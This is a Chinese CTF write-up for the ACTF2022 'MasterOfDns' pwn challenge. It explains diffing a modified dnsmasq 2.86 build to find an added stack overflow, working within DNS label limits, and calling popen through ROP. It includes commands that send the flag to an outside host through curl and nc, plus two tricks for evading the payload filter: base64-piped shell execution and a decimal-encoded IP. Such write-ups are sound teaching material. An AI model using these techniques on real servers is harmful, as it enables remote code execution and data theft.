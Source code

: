 ```yaml
---
layout: article
pageview: true
key: 2022-07-22-actf2022-master-of-dns
title: ACTF2022-MasterOfDns题解
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


这题真是令我收获良多，学到很多新姿势。

本来是Mark佬复现的一道题目，鄙人随口说到~~32位的rop还不秒了？~~，结果猛调了两天，令人感叹😋。
<!--more-->

### 初见题目

[题目连接](https://adworld.xctf.org.cn/match/list?event_hash=ba9b2b4c-7265-45ce-aa4b-c917bc5ce1bc.event)

题目环境32位，没开`pie`和`canary`，根据题目给的README可以发现这是一个功能完备的DNS服务器，可以正常的dig。通过IDA打开后发现十分复杂，一下子无法确定漏洞在那个函数。

题目给了提示说源代码可以参考`dnsmasq`，我们通过文件中的字符串可以确定版本为`2.86`，编译环境`Ubuntu20`，遂编译一份和题目环境一样的可执行文件出来。

### 编译&Bindiff比较

我们可以在`dnsmasq`官网找到`2.86`版本的源代码，然后修改`Makefile`文件，令其编译参数如下
```
CFLAGS        = -Wall -W -fno-stack-protector -m32
LDFLAGS       = -m32 -no-pie
```
这里需要去掉`CFLAGS`里的`-O2`优化选项，如果有这一选项，编译出的文件与题目文件相比有43处大的函数不同，而去掉后只有2处，显然题目文件也去掉了该选项。

修改好后直接`make`即可编译，输出文件在`src/dnsmasq`。

我们可以使用`Bindiff`来方便的比较两个`elf`文件之间的区别，我们可以看到两个文件之间大约有10个相似度不为1的函数。我们双击点开对比，发现又一个函数只在结尾增加了一次`memcpy`，我们可以确定这里就是栈溢出的漏洞点。

![image.png](https://s2.loli.net/2022/07/22/nLhwyH3q56UovIi.png)

![image.png](https://s2.loli.net/2022/07/22/vGfEpxlACc3UBrn.png)

### 调试漏洞点

找到漏洞点后我们开始判断溢出的参数，通过阅读源代码以及`gdb`调试后，我们发现这里的`memcpy`会将我们请求中的域名部分复制到栈上去，我们只需要用`pwntools`来模拟DNS请求即可触发漏洞。

在~~学习了DNS报文格式~~WireShark抓包后，我们拿到了正常DNS请求的头和尾，中间的域名部分即是我们需要构造的`payload`，然而这部分有诸多限制。

例如我们要查询的域名是`baidu.com`，在报文中写成`\x05baidu\x03com\x00`，中间的`.`被替换为长度，而且每一节的长度最大为`0x3f`，所以我们的报文中间不能出现`\x00`和`\x2e`(chr(0x2e)='.')，而且长度表示与后面的字符串长度必须对应，否则都不能通过检查。

在用`gdb`调试程序时，需要切换为`root`用才能`attach`到程序，而且不能通过`gdb.debug()`来启动、调试程序，所以我创建了一个新的脚本来自动获取程序的`pid`并自动`attach`，结束调试后自动`kill`，需要在`root`用户下执行.

```shell
#!/bin/sh
port=9999
pid=$(netstat -nlp | grep :$port | awk '{print $7}' | awk -F"/" '{ print $1 }');
gdb -p $pid -iex="b *0x0804F444";

read -p "Press any key to resume ..." tmp;

if [  -n  $pid  ];  then
    kill  -9  $pid;
fi
```

由于我们是网络发包请求，所以不能通过什么途径来泄露`libc`地址，进一步使用`system`函数。我们查找程序的`plt`表，发现有一个`popen`函数可以利用，这个函数的效果与`system`类似，额外需要一个"r"或“w”字符串地址作为参数。

由于是32位环境，参数需要放在栈里，而我们既不知道栈地址，也不能找到合适的`gadget`来使用。这里我们可以通过IDA来找到程序里调用`popen`函数的相关汇编，可以找到如下代码
```
push edx;
push eax;
call popen;
```
这样我们不需要知道栈地址，只需要让`eax`为命令地址，`edx`为"r"或"w"字符串的地址即可。

而恰好`edx`里存着我们输入内容的附近的栈地址，我们通过一些`gadget`操作一番，即可设置`eax`寄存器。而字符串"r"也可以在`bss`段搜到，如此一来我们只需要反弹shell或反弹flag。

### 🐖🖊操作反弹flag


当时在这一步卡了好久，因为不管使用``curl(wget) aaa:bbb/`cat flag` `` 还是`cat flag|nc aaa bbb` 都只能建立连接而无法获取flag内容，最后使用``curl aaa:bbb/`pwd` ``测试才发现`popen`后的目录为根目录而不是启动的目录，没有flag文件自然不能获取内容。。。

这里介绍两种反弹flag的命令写法，由于我们的`payload`不能出现`.`符号，而这又是ip或域名中必备的组件，所以有以下方法绕过

1. Mark佬的方法，我们先将反弹flag命令用base64编码，比如说编码后的结果为`ABCD==`，那么`payload`就为`echo ABCD==|base64 -d|sh`
2. 鄙人的方法，其实给ip可以写成10进制的方式，`1.2.3.4`转化为10进制的方法是`4+3*256+2*256^2+1*256^3`，结果为`16909060`，代替正常命令中的ip即可